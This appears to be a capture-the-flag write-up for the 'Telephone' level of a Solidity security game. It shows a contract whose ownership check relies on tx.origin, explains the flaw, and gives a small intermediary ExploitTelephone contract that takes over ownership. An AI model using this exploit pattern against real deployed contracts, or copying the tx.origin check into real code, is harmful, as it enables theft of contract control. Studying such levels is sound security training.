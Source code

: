 # 04 Telephone

```
Claim ownership of the contract below to complete this level.

  Things that might help

See the Help page above, section "Beyond the console"
```
####  code
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}


```

#### Start 


### (1) `Claim ownership of the contract `


Looking at the code, You can see that the part that changes the owner is a  function`changeOwner()`

But you must pass an `if (tx.origin != msg.sender)` condition first.

####  `tx.origin`

assuming you have a chain of call contracts, `tx.origin` will always be the first caller in the chain of call contracts

####  `msg.sender` 

`msg.sender` is the sender of the tx call.

```
 A -call-> B -call-> C 
           |         |_ _ _ _ _ _ _ tx.origin = A
           |                        msg.sender = B
           |
           | tx.origin = A
           | msg.sender = A
```

To claim ownership, we need to write a contract to call the fucntion `changeOwner()` in contract Telephone


```
who wants to claim ownership -> contract ExploitTelephone -> contract Telephone
                                                                    |
                                                                    |
                                                                    | tx.origin = who wants to claim ownership
                                                                    | msg.sender = contract ExploitTelephone
```
will make us pass the condition `if (tx.origin != msg.sender)`

#### This is the code I used to claim ownership contract Telephone
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
	function changeOwner(address _owner) external;

}

contract ExploitTelephone {
    
    function callChangeOwner(address _targetExploit) external{
        Telephone(_targetExploit).changeOwner(***address who wants to claim ownership***);
    }
}
```

Use the remix deploy contract `ExploitTelephone`  then call the function `callChangeOwner(address _targetExploit)` and confirm transaction

Click button Submit instance and confirm transaction

# !!! we passed !!!


